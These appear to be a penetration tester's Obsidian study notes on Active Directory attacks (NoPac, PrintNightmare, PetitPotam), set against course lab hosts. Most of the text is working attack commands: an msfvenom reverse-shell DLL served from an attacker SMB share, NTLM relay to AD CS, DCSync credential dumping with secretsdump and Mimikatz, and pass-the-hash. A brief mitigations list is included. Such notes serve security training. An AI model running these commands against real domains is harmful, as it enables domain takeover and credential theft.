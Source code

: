 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## NoPac (SamAccountName Spoofing) : Standard domain access
**CVEs**: 
- [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) : Bypass vulnerability with the Security Account Manager (SAM)
- [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287) : Vulnerability with the Kerberos Privilege Attribute Certificate (PAC) in ADDS
**Writeup**: 
- [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699)
- [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)
**Tool**: [noPac](https://github.com/Ridter/noPac) (includes a `scanner.py` and exploit `noPac.py`)

The idea is that you can change a computer account's SamAccountName to that of a DC. We can then request Kerberos tickets causing that service to issue tickets under the DC's name. This can give us SYSTEM shell access on the DC.

It relies on the `ms-DS-MachineAccountQuota` to not be `0` (*setting this to `0` can prevent a number of AD attacks*) as the user wouldn't be able to add new machine accounts.

```bash
sudo python3 scanner.py [domain]/[user]:[pass] -dc-ip [dc-ip] -use-ldap

sudo python3 noPac.py [domain]/[user]:[pass] -dc-ip [dc-ip] -dc-host [dc-name] -shell --impersonate administrator -use-ldap
```
> this can be very noisy and could be flagged by AV / EDR

This attack will leave the TGT on the attack host in the directory it was run. This `ccache` file could then be used for a [[Password Attacks#Pass-the-Hash|PtH]] or [[Abusing ACLs#DCSync|DCSync]] attack.
> We can use the `-dump` flag with noPac to a DCSync attack using [[Abusing ACLs#Using secretsdump.py|secretsdump.py]].

This tool makes use of `smbexec.py` (*from Impacket*) which can be quite noisy and easily detected by Windows Defender (*and other AVs*).

## PrintNightmare : Standard domain access
**CVEs**:
- [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) : Print spooler improperly performs privileged file operations, allowing RCE
- [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) : Not publicly disclosed - Allows RCE
**Tool**: [cube0x0's](https://twitter.com/cube0x0?lang=en)

There are a number of exploits out there that use the RCE vulnerabilities, [cube0x0's](https://twitter.com/cube0x0?lang=en) is a popular one.
> Annoyingly, [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit uses a modified version of Impacket. `github.com/cube0x0/impacket`.

```Bash
rpcdump.py @[dc-ip] | egrep 'MS-RPRN|MS-PAR'
```
Lets us determine if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

### Create a DLL payload with [[MSFVenom]]
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[ATK_host] LPORT=[ATK_port] -f dll > [filename].dll
```
> Make sure to start an MSF multi/handler
### Host the DLL in an SMB Server
```bash
sudo smbserver.py -smb2support [share_name] [path_to_dll]
```
### Exploit
```bash
sudo python3 CVE-2021-1675.py [domain]/[user]:[pass]@[dc-ip] '\\[ATK_host]\[share_name]\[filename].dll'
```

## PetitPotam (MS-EFSRPC) : Unauthenticated
**CVE**: 
- [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) : Unauthenticated attacker can coerce the DC to authenticate against another server (LSA Spoofing)
**Writeup**:
- https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/

By abusing the [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31), an unauthenticated attacker can force the DC to authenticate against another host using NTLM on port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc). This allows an attacker to take control of a domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use.

1. An authentication request from the targeted DC is relayed to the CA host's Web Enrolment page
2. The CA generates a Certificate Signing Request (CSR) for a new cert.
3. The cert can be used with tools like [[Rubeus]] or `gettgtpkinit.py` (*from [PKINITtools](https://github.com/dirkjanm/PKINITtools)*) to request a TGT for the DC
4. The TGT can then be used in a [[Abusing ACLs#DCSync|DCSync]] attack to compromise the domain

### Start an NTLM relay
The relay must point to the Web Enrolment URL for the CA host (*Can try [certi](https://github.com/zer1t0/certi) to locate it*) and it must use either the KerberosAuthentication or DomainController AD CS template.
```bash
sudo ntlmrelayx.py -debug -smb2support --target https://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

### Running PetitPotam.py
[PetitPotam.py](https://github.com/topotam/PetitPotam) will attempt to coerce the DC to authenticate to our host where our NTLM relay is running. This tool will attempt to coerce authentication via the [EfsRpcOpenFileRaw](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) method.
> There is a windows exe version, a PowerShell tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1) or Mimikatz can do it too `misc::efs /server:[dc-ip] /connect:[atk-ip]`

```bash
python3 PetitPotam.py [dc-ip] [atk-ip]
```

This will then cause the relay to request the CSR and the relay will return the base64 encoded cert.
```bash
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIIS...CCJ8
```

### Requesting the TGT
We request the TGT and then tell Kerberos to use the ccache file so our attack host can use it for authentication.
```bash
python3 /opt/PKINITtools/gettgtpkinit.py [DOMAIN]/[DC-NAME]\$ -pfx-base64 [b64-cert] [outputfile].ccache

export KRB5CCNAME=[outputfile].ccache
```

### Using Domain Controller TGT to DCSync
This attempts to perform a DCSync attack against the administrator account for the DC by using the TGT we have collected. The tool will automatically collect the username (the machine account's name) from the ccache file so we don't have to specify it here.
```bash
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Authenticate as Administrator using PtH
```bash
crackmapexec smb [dc-ip] -u administrator -H [NT-hash]
```

### ALTERNATIVE - TGT request and PtT attack with [[Rubeus]]
[[Rubeus]] lets us perform the entire process of requesting the TGT and performing a [[Password Attacks#Pass the Ticket with Rubeus|Pass the Ticket]] attack with the DC machine account
```PowerShell
.\Rubeus.exe asktgt /user:[DC-MACHINE-ACCOUNT] /certificate:[base64-cert] /ptt
```
We can then see all the tickets in memory with `klist`. Since the DC has replication privileges we can use the pass-the-ticket to perform a DCSync attack with [[Mimikatz]]. We could grab the NT hash for the KRBTGT account which would let us create a Golden Ticket and establish persistence.

**DCSync with [[Mimikatz]]**
```PowerShell
.\mimikatz.exe

lsadump::dcsync /user:[domain]\[target-user]
```

### Mitigations for PetitPotam
- Apply patches for [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) to any affected hosts
- To prevent NTLM relay attacks, use [Extended Protection for Authentication](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2009/973811) along with enabling [Require SSL](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429) to only allow HTTPS connections for the Certificate Authority Web Enrolment and Certificate Enrolment Web Service services
- [Disabling NTLM authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) for Domain Controllers
- Disabling NTLM on AD CS servers using [Group Policy](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrolment and Certificate Enrolment Web Service services are in use
> This [whitepaper](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) demonstrates a number of attacks against AD CS that can be performed using authenticated API calls (*it also contains mitigations*). This demonstrates why its important to do other measures not just patching this one CVE.